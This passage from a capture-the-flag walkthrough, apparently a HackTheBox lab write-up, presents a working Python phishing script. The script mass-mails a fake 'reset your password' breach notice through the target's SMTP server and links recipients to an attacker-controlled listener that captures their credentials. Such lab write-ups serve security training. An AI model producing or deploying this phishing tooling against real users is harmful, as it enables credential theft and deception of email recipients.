 Since we do not find anything interesting, we can go ahead and look at it later when we have something useful.

## Shell as www-data

### Phishing E-mail

The Box name indicates it has something to do with mails, and we already have acquired a list of emails which we can use to send phishing mail.

I wrote a python script utilizing smtplib and email.message module which sends a email with body including our host ip, once a user visits this link we get a POST request on `nc` listener with users creds.

```python
#!/usr/bin/env python3

## ultrafisher by ColdFusionX ##

import smtplib
import sys
from email.message import EmailMessage
from pwn import *

stats = log.progress(f"")
emailsfile = open(sys.argv[1]).readlines()

HackerServer = (f"http://10.10.14.3:8040") # <- Change this

#Sender address
sender = 'cold@fusionsecurity.cfx'

#Loop for Email addresses
for recipients in emailsfile:
    recipients = recipients.strip()
    stats.status(f"Sending Mail to -> " f"{recipients}")

    msg = EmailMessage ()
    msg ['Subject'] = (f"Data Breach incident - Reset your password")
    msg ['From'] = sender
    msg ['To'] = recipients

#Email Body
    msg.set_content (f"Please reset your password visiting" f"{HackerServer}")
#Target Server
    try:
        mail = smtplib.SMTP ('10.10.10.197', 25)
        mail.send_message (msg)
#Failure Log
    except smtplib.SMTPException:
        print()
        log.failure(f"Error Sending mail to " + recipients)
print()
log.success(f"Phishing Mail Sent")
```
